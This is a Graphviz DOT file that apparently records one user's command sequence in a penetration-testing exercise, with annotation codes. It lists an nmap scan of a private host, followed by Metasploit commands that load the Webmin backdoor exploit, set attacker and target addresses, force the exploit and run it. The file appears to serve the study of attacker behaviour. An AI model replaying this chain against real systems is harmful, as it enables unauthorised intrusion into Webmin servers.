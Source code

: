 // creating graph for user: 91
digraph {
	node [shape=box]
	0 [label="nmap -h A0 A1 "]
	1 [label="nmap -h A0 A1 "]
	2 [label="nmap -p 1-65535 172.18.1.5 A0 M0 A1 "]
	3 [label="nmap -A -p 10000 172.18.1.5 V0 "]
	4 [label="msfconsole A2 M2 "]
	5 [label="use exploit/linux/http/webmin_backdoor A8 M8 "]
	6 [label="use exploit/unix/http/webmin_backdoor V8 "]
	7 [label="search webmin A3 M3 "]
	8 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	9 [label="show options A5 M5 "]
	10 [label="set lhost 10.1.135.83 A6 "]
	11 [label="set rhosts 172.18.1.5 A6 "]
	12 [label="show targets A5 "]
	13 [label="show options V5 "]
	14 [label="exploit  V8 "]
	15 [label="set srvhost 10.1.135.83 A6 "]
	16 [label="exploit  V8 "]
	17 [label="show options V5 "]
	18 [label="set ForceExplot A6 "]
	19 [label="set ForceExploit A6 "]
	20 [label="set ForceExploit true A6 "]
	21 [label="exploit V8 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	rankdir=LR
}
